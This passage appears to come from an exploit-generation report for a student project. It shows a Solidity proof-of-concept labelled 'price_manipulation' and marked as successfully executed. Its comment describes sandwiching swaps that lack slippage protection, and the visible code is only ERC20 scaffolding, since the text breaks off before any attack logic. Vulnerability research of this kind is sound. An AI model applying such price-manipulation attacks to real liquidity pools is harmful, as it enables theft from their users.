 
### PoC #2: price_manipulation

**File:** /Users/advait/Desktop/NTU/fyp-fr/exploit/src/test/PoC_unknown_1742753664.sol

**Execution:** ✅ SUCCESS

**Exploit Code:**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "./basetest.sol";

/*
 This file demonstrates an educational example of a vulnerability arising from using fixed 0 values for minimum amounts
 on liquidity and swap calls in a decentralized exchange scenario. Without slippage protection (i.e., non-zero minAmounts),
 an attacker can manipulate the liquidity pool’s price (via large swaps) immediately prior to critical operations,
 causing sandwich attacks or front-running. This example is for educational purposes only.
*/

// -----------------------------------
// Minimal IERC20 interface
// -----------------------------------
interface IERC20 {
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function transferFrom( address sender, address recipient, uint256 amount ) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
}

// -----------------------------------
// Minimal ERC20 token used for simulation
// -----------------------------------
contract MinimalERC20 is IERC20 {
    string public name;
    string public symbol;
    uint8 public decimals = 18;
    uint256 public override totalSupply;

    mapping(address => uint256) public override balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    constructor(string memory _name, string memory _symbol, uint256 _supply) {
        name = _name;
        symbol = _symbol;
        totalSupply = _supply;
        balanceOf[msg.sender] = _supply;
    }

    function transfer(address recipient, uint256 amount) external override returns (bool) {
        require(balanceOf[msg.sender] >= amount, "Insufficient balance");
        balanceOf[msg.sender] -= amount;
        balanceOf[recipient] += amount;
        return true;
    }

    function approve(address spender, uint256 amount) external override returns (bool) {
        allowance[msg.sender][spender] = amount;
```